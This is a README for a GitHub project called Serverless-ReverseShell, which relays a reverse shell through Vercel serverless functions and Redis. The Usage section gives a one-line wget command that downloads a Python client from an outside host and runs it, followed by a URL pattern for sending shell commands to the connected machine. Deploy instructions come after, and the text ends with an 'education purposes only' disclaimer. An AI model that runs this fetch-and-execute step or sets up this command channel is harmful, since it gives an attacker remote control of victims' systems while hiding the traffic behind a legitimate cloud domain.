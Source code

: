 
# Serverless-ReverseShell


## Demo

https://chat.fjh1997.top/

## Usage

Make client connect
```
wget https://chat.fjh1997.top/download -O client.py && python3 client.py
```
Then use https://chat.fjh1997.top/send?cmd=xxx to get shell!

## Running Locally

```bash
npm i -g vercel
vercel dev
```

Your application is now available at `http://localhost:3000`.

## One-Click Deploy

Deploy the example using [Vercel](https://vercel.com?utm_source=github&utm_medium=readme&utm_campaign=vercel-examples):

[![Deploy with Vercel](https://vercel.com/button)](https://vercel.com/new/clone?repository-url=https://github.com/fjh1997/Serverless-ReverseShell/tree/main/&&env=REDIS_URL,DOMAIN_NAME)

Remember to set the environment variable REDIS_URL to the address from [redislabs](https://app.redislabs.com/)<br>

And also the DOMAIN_NAME for client.py :-) <br>

note: For chinese user,a cdn is needed as Vercel was blocked.<br>

<b>For education purposes only.</b>
